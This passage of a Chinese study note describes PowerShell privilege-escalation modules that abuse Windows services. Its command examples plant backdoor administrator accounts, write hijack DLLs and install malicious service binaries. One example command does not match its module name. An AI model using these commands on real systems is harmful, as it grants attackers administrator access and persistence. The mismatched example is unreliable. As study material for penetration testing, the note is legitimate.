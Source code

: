 15.Restore-ServiceBinary
该模块用于恢复服务的可执行文件到原始目录

```
Restore-ServiceBinary -ServiceName VulnSVC
```

16.Test-ServiceDaclPermission
该模块用于检查某个用户是否在服务中有自由访问控制的权限，结果会返回true或false

```powershell
Restore-ServiceDaclPermission -ServiceName VulnSVC
```

17.Write-HijackDll
该模块用于输出一个自定义命令并且能够自我删除的.bat文件到$env:Temp\debug.bat，并输出一个能够启动这个bat文件的DLL

18.Write-UserAddMSI
该模块用于生成一个安装文件，运行这个安装文件后会弹出添加用户的对话框

```powershell
Write-UserAddMSI
```

19.Write-ServiceBinary
该模块用于预编译C#服务的可执行文件，默认创建一个管理员账号，可通过Command定制自己的命令

```powershell
#添加默认账号
Write-ServiceBinary -ServiceName VulnSVC 
#指定添加的域账号
Write-ServiceBinary -ServiceName VulnSVC -UserName “TESTLAB\john” 
#指定添加用户，用户密码以及添加的用户组
Write-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup “Administrators” 
#自定义执行命令
Write-ServiceBinary -ServiceName VulnSVC -Command “net …” 
```

20、Install-ServiceBinary
该模块通过Install-ServiceBinary写一个C#的服务用来添加用户

```powershell
#添加默认账号
Install-ServiceBinary -ServiceName DHCP 
#指定添加的域账号
Install-ServiceBinary -ServiceName VulnSVC -UserName “TESTLAB\john” 
 #指定添加用户，用户密码以及添加的用户组
Install-ServiceBinary -ServiceName VulnSVC -UserName backdoor -Password password -LocalGroup “Administrators”
#自定义执行命令
Install-ServiceBinary -ServiceName VulnSVC -Command “net …” 
```

Write-ServiceBinary与Install-ServiceBinary的不同是，前者生成可执行文件，后者直接安装服务

关于powershell的学习笔记就写到这里，还有很多模块没有介绍，后面可以通过Google/SecWiki深入学习。